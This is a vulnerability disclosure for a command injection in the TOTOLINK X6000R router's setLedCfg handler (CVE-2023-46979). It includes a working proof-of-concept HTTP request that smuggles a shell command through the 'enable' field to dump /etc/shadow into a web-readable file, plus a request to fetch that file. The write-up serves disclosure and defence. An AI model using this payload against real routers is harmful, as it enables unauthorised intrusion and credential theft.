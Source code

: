 # TOTOLINK X6000R V9.4.0cu.852_B20230719 Command Injection

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

![image-20231029014112742](uploads/image-20231029014112742.png)

## Vulnerability Description

The `enable` parameter of `setLedCfg` in `shttpd` is controllable, and there is no verification of the input `enable` parameter. The `enable` parameter will then be spliced into a command and executed, which will eventually lead to command injection.

### POC

injection the command "(ls&&id&&cat /etc/shadow)>/web/111.txt"

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 77
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"enable":"1`(ls&&id&&cat /etc/shadow)>/web/111.txt`","topicurl":"setLedCfg"}
```

![image-20231029014639403](uploads/image-20231029014639403.png)

check the result：

```http
GET /111.txt HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20231029014812633](uploads/image-20231029014812633.png)

![image-20231029014856908](uploads/image-20231029014856908.png)

## Analysis

`sub_411F90`will handle the `setLedCfg` request, this function firstly gets `enable` value from the request body, and then pass to `Uci_Set_Str` function,

![image-20231029015148809](uploads/image-20231029015148809.png)

and then pass to `CsteSystem` function,

![image-20231029020121459](uploads/image-20231029020121459.png)

![image-20231029020152055](uploads/image-20231029020152055.png)

and then lead to command injection.

![image-20231029020413159](uploads/image-20231029020413159.png)

## CVE-2023-46979